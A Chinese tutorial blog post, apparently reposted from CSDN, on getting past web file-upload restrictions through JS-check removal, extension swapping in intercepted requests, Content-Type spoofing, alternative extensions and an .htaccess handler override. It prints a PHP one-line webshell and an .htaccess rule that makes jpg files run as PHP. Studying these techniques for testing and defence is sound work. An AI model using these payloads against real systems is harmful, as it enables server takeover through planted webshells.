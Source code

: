 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/npc88888/article/details/136400867)

### 一. 绕过 js 检测方法

> 按 F12 使用网页审计元素，把校验的上传文件后缀名文件删除，即可上传。

![](https://img-blog.csdnimg.cn/direct/3b4d0d006a074eb98e87d2f7a9354d28.png)

> 把恶意文件改成 js 允许上传的文件后缀，如 jpg、gif、png 等，再通过[抓包](https://so.csdn.net/so/search?q=%E6%8A%93%E5%8C%85&spm=1001.2101.3001.7020) 工具抓取 post 的数据包，把后缀名改成可执行的脚本后缀如 php 、asp、jsp、 net 等。即可绕过上传。

把 s.php 改变后缀名为 s.jpg

```
<?php phpinfo();eval($_POST['cmd']);?>
 
#一句话木马
```

点击上传文件

![](https://img-blog.csdnimg.cn/direct/a84c32823afe42379de3ef961444b6d4.png)

抓包，把文件名后缀改为 php

![](https://img-blog.csdnimg.cn/direct/d7148015d90b4bf8bc6bbde46980eab2.png)

上传成功

![](https://img-blog.csdnimg.cn/direct/ce982eed15b844c69ec58a31d4909e60.png)

### 二. 绕过 contnet-type 检测上传

> 服务端是通过 content-type 判断类型， content-type 在客户端可被修改。

![](https://img-blog.csdnimg.cn/direct/ede30e7e638240f599cc8f1b2352f8ec.png)

![](https://img-blog.csdnimg.cn/direct/4edea3209f12448a8d329f6be443d840.png)

### 三. 绕过黑名单检测

> 上传图片时，如果提示不允许 php、asp 这种信息提示，可判断为黑名单限制， 上传黑名单以外的后缀名即可。 在 iis 里 asp 禁止上传了，可以上传 asa cer cdx 这些后缀，如在网站里允许. net 执行 可以上传 ashx 代替 aspx。如果网站可以执行这些脚本，通过上传后门即可 获取 webshell。 在不同的中间件中有特殊的情况，如果在 apache 可以开启 application/x-httpd-php 在 AddType application/x-httpd-php .php .phtml .php3 后缀名为 phtml 、php3 均被解析成 php 有的 apache 版本默认就会开启。 上传目标中间件可支持的环境的语言脚本即可，如. phtml、php3。
> 
> 就是把不同的文件后缀放上去试试，有的成功上传后还解析不了。我个人觉得没什么用 

#####  1.htaccess 重写解析绕过上传

```
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
#意思是把jpg文件当php文件解析
```
